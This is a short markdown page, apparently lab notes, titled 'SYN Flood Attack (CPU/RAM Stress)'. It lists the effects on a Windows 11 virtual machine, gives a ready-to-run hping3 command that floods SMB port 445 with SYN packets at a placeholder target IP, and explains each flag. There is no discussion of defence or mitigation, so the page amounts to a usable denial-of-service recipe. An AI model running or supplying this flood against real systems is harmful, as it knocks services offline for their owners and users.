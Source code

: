 # SYN Flood Attack (CPU/RAM Stress)

## Effects:
- High CPU and RAM usage on the Windows 11 VM.
- If SMB (file sharing) is enabled, the system may slow down or crash.

## Command:
```bash
sudo hping3 -S --flood -p 445 <Target-IP>
```

## Explanation:

- `-S` → Sends SYN flag, initiating a TCP handshake.
- `--flood` → Sends packets continuously.
- `-p 445` → Targets Port 445 (SMB - Windows File Sharing).
